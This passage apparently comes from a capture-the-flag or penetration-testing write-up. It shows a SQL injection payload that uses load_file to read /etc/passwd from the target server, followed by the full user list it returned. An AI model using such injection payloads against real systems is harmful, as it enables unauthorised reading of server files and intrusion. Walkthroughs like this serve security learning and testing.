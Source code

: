 Looking for another way to get into the machine, we see that we can also read files with our discovered SQLI.

```
sm1l3z > union select null, group_concat(load_file('/etc/passwd'))
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
_switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
_traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
_ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
_unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
_dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
_pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
_pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
_pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
_pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
_spamd:*:62:62:Spam Daemon:/var/empty:/sbin/nologin
www:*:67:67:HTTP Server:/var/www:/sbin/nologin
_isakmpd:*:68:68:isakmpd privsep:/var/empty:/sbin/nologin
_rpki-client:*:70:70:rpki-client user:/nonexistent:/sbin/nologin
_syslogd:*:73:73:Syslog Daemon:/var/empty:/sbin/nologin
_pflogd:*:74:74:pflogd privsep:/var/empty:/sbin/nologin
_bgpd:*:75:75:BGP Daemon:/var/empty:/sbin/nologin
_tcpdump:*:76:76:tcpdump privsep:/var/empty:/sbin/nologin
_dhcp:*:77:77:DHCP programs:/var/empty:/sbin/nologin
_mopd:*:78:78:MOP Daemon:/var/empty:/sbin/nologin
_tftpd:*:79:79:TFTP Daemon:/var/empty:/sbin/nologin
_rbootd:*:80:80:rbootd Daemon:/var/empty:/sbin/nologin
_ppp:*:82:82:PPP utilities:/var/empty:/sbin/nologin
_ntp:*:83:83:NTP Daemon:/var/empty:/sbin/nologin
_ftp:*:84:84:FTP Daemon:/var/empty:/sbin/nologin
_ospfd:*:85:85:OSPF Daemon:/var/empty:/sbin/nologin
_hostapd:*:86:86:HostAP Daemon:/var/empty:/sbin/nologin
_dvmrpd:*:87:87:DVMRP Daemon:/var/empty:/sbin/nologin
_ripd:*:88:88:RIP Daemon:/var/empty:/sbin/nologin
_relayd:*:89:89:Relay Daemon:/var/empty:/sbin/nologin
_ospf6d:*:90:90:OSPF6 Daemon:/var/empty:/sbin/nologin
_snmpd:*:91:91:SNMP Daemon:/var/empty:/sbin/nologin
_ypldap:*:93:93:YP to LDAP Daemon:/var/empty:/sbin/nologin
_rad:*:94:94:IPv6 Router Advertisement Daemon:/var/empty:/sbin/nologin
_smtpd:*:95:95:SMTP Daemon:/var/empty:/sbin/nologin
_rwalld:*:96:96:rpc.rwalld:/var/empty:/sbin/nologin
_nsd:*:97:97:NSD Daemon:/var/empty:/sbin/nologin
_ldpd:*:98:98:LDP Daemon:/var/empty:/sbin/nologin
_sndio:*:99:99:sndio privsep:/var/empty:/sbin/nologin
_ldapd:*:100:100:LDAP Daemon:/var/empty:/sbin/nologin
_iked:*:101:101:IKEv2 Daemon:/var/empty:/sbin/nologin
_iscsid:*:102:102:iSCSI Daemon:/var/empty:/sbin/nologin
_smtpq:*:103:103:SMTP Daemon:/var/empty:/sbin/nologin
_file:*:104:104:file privsep:/var/empty:/sbin/nologin
_radiusd:*:105:105:RADIUS Daemon:/var/empty:/sbin/nologin
_eigrpd:*:106:106:EIGRP Daemon:/var/empty:/sbin/nologin
_vmd:*:107:107:VM Daemon:/var/empty:/sbin/nologin
```